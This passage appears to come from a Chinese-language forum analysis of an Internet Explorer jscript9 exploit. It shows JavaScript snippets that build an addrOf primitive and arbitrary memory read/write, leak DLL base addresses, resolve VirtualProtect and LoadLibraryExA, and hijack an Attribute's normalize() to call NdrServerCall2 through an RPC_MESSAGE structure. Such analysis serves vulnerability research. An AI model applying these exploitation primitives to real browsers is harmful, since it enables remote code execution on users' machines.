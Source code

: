 ```
function addrOf(obj) {
           arr[0] = obj
           return read(pArr, 32)
       }
write(read(addrOf(hd0) + 0x18, 32) + 0x28, 0, 32)

```

通过任意地址读写泄露模块的基址, 通过 PE 文件结构获取一些函数地址

```
var map = new Map()
var jscript9 = getBase(read(addrOf(map), 32))
var rpcrt4 = getDllBase(jscript9, 'rpcrt4.dll')
var msvcrt = getDllBase(jscript9, 'msvcrt.dll')
var ntdll = getDllBase(msvcrt, 'ntdll.dll')
var kernelbase = getDllBase(msvcrt, 'kernelbase.dll')
var VirtualProtect = getProcAddr(kernelbase, 'VirtualProtect')
var LoadLibraryExA = getProcAddr(kernelbase, 'LoadLibraryExA')

```

而后创建了一个 Attribute 对象 xyz, 并覆盖其函数 normalize(), 修改为 NdrServerCall2

```
var xyz = document.createAttribute('xyz')
var paoi = addrOf(xyz)
var patt = read(addrOf(xyz) + 0x18, 32)
cattr.set(MSHTMLSymbolBuffer, 'normalize', NdrServerCall2)

```

RPC_MESSAGE 结构, 由图中可以看出 Handle 存放了一个 OSF_SCALL 虚表指针, Buffer 位置存放了远程调用中函数的传参, RpcInterfaceInformation 存放了函数接口信息, 通过几个结构体包装了函数的信息, 最终会指向的是函数的指针. 然后最终通过 NdrServerCall2 进行调用.

 

![](https://bbs.pediy.com/upload/tmp/893960_ZM5W8G82PAVY3VZ.png)

 

NdrServerCall2 接收参数 RPC_MESSAGE, 内部会调用 NdrStubCall2 函数

 

![](https://bbs.pediy.com/upload/tmp/893960_KB37ASQ9DZZS37C.png)

 

内部在获取 RPC_MESSAGE 后会对函数偏移进行一些计算, 以及参数做一些处理, 然后进行函数调用

 

![](https://bbs.pediy.com/upload/tmp/893960_KU3ZK4MXWE5KKVR.png)

 

![](https://bbs.pediy.com/upload/tmp/893960_XXW4H4KT38D3JEU.png)

 